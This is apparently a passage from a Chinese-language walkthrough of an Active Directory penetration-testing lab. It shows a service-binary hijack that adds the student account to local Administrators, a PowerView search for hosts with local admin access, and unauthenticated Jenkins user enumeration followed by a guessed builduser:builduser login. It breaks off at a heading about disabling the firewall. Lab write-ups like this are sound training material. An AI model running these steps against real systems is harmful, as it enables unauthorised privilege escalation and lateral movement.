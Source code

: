 写一个提权的exe，指定当前账号
```
PS C:\ad> Write-ServiceBinary -Name 'Abyss.exe' -Path 'C:\WebServer\Abyss.exe' -UserName 'dcorp\student366'

ServiceName Path                   Command
----------- ----                   -------
            C:\WebServer\Abyss.exe net localgroup Administrators dcorp\student366 /add


PS C:\ad> ls C:\WebServer\


    Directory: C:\WebServer


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/18/2019   4:50 AM                Abyss Web Server
-a----        2/20/2022  12:57 AM          22016 Abyss.exe
```

重启服务
```
sc.exe stop AbyssWebServer
sc.exe start AbyssWebServer
```

现在用admin权限打开一个powershell，输入当前账号密码，如果可以打开表示本地提权成功。


## Identify a machine in the domain where studentx has local administrative access.

可以横向到dcorp-adminsrv
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Find-LocalAdminAccess
dcorp-adminsrv.dollarcorp.moneycorp.local
mcorp-std366.dollarcorp.moneycorp.local
```

## Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 -the dcorp-ci server.

未登陆状态下打开```http://172.16.3.11:8080/asynchPeople/```收集到用户名

```
builduser
manager
jenkinsadmin
```
手工测试```builduser：builduser```登陆到Jenkins

### 关闭防火墙
